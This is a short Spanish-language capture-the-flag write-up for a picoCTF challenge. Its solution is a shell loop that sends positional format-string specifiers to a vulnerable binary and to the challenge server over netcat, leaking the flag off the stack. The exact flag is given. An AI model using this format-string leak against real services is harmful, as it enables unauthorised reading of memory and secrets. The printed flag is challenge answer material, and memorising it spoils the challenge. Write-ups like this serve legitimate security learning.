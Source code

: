 ## Descripcion
Story telling class 1/2

## Pistas 
****** 
## Solucion
```
jt@jt-VirtualBox:~/Desktop/repos/files/fl$ for i in {0..999}; do echo "%$i\$s" |./vuln | grep -Ei "pico|ctf"; done
pico{lo que sea}
^C
jt@jt-VirtualBox:~/Desktop/repos/files/fl$ 
jt@jt-VirtualBox:~/Desktop/repos/files/fl$ for i in {0..999}; do echo "%$i\$s" |nc saturn.picoctf.net 61955 | grep -Ei "pico|ctf"; done
CTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}
```
## bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}
## Notas adicionales 
format string attack
## Referencias
